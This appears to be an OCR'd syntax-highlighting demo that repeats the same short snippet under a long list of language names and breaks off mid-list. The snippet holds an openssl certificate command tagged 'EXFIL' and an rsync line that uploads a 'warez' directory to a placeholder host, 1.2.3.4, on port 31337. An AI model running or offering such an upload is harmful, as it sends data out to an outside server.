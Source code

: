 abap
```abap
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
actionscript
```actionscript
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
ada
```ada
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
apache_conf
```apache_conf
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
applescript
```applescript
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
asciidoc
```asciidoc
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
assembly_x86
```assembly_x86
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
autohotkey
```autohotkey
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
batchfile
```batchfile
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
c_cpp
```c_cpp
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
cirru
```cirru
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
clojure
```clojure
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
cobol
```cobol
#this is a comment
openssl req -subj '/CN=thc/O=EXFIL/C=XX' -new -newkey rsa:2048 -sha256 -days 14 -nodes -x509
rsync -av warez rsync://1.2.3.4:31337/up```
coffee
```
